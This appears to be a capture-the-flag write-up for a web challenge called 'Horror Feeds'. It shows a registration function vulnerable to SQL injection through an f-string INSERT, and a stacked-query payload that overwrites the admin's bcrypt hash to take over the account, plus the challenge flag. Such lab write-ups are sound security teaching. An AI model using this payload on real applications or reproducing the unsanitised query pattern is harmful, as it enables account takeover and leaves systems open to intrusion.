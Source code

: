 # CTFname - Horror Feeds

* **Category:** Category
* **Points:** 100

## Challenge

> An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?

## Solution
```python
./web_horror_feeds/challenge/application/database.py

def register(username, password):
    exists = query_db('SELECT * FROM users WHERE username = %s', (username,))
   
    if exists:
        return False
    
    hashed = generate_password_hash(password)

    query_db(f'INSERT INTO users (username, password) VALUES ("{username}", "{hashed}")')
    mysql.connection.commit()

    return True
```

* As shown above there is a `register()` function which requires the paramaters `(username, password)` so it can be used in the query to store credentials to a database.
* The vulnerability occurs as there is no sanitization of the `username` therefore makes it possible to execute malicious SQL statements

![image](https://user-images.githubusercontent.com/78451563/198285821-bb4f404b-9c25-4976-bc96-ae7db112453d.png)

* To try login as admin we could try to update the admin's bcrypt password as creating another admin entry wouldn't work
</br>

### SQLi exploitation steps

![image](https://user-images.githubusercontent.com/78451563/198289332-b30893d0-8bb9-49af-b75b-c3bb43234e5e.png)

1. Firstly i ended the firstly query to make it easier:
```sql
admin","password");-- -
```
2. Now to create our custom password by using the `generate_password_hash()`:


```python
def generate_password_hash(password):
    salt = bcrypt.gensalt()
    return bcrypt.hashpw(password.encode(), salt).decode()

def verify_hash(password, passhash):
    return bcrypt.checkpw(password.encode(), passhash.encode())
```
* The server verfies our password using `bcrypt.checkpw` which involves the comparison of the already hashed stored password and the hashed entered password.

![image](https://user-images.githubusercontent.com/78451563/198292904-6832a28a-f3c7-4679-9a69-ff4a80d3d3ff.png)

* We can forge a password by utilising the `generate_password_hash(password)` function

4. Now to update the admins bcrypt password. I used `UPDATE` to change the admin's password and `COMMIT` to save the changes:

![image](https://user-images.githubusercontent.com/78451563/198295460-ebb27271-0f2e-48a3-82b2-be162b4cf988.png)

```sql
UPDATE users SET password='$2b$12$/SM/o3oxLx.rpLNtBrhrkOCXxK/myFjO7DsE83Xws95RSy8j8mjN6' WHERE username='admin'; COMMIT;-- -
```
5. Now to send to the server:

![image](https://user-images.githubusercontent.com/78451563/198296946-d034e2e8-6475-4daa-82c7-9a1310bc02aa.png)

![image](https://user-images.githubusercontent.com/78451563/198297003-93da0bb4-28e2-44d0-ac93-3ca2bbede074.png)


### Final Payload:
```sql
test","test"); UPDATE users SET password='$2b$12$/SM/o3oxLx.rpLNtBrhrkOCXxK/myFjO7DsE83Xws95RSy8j8mjN6' WHERE username='admin'; COMMIT;-- -
```

```
Flag: HTB{N3ST3D_QU3R1E5_AR3_5CARY!!!}
```
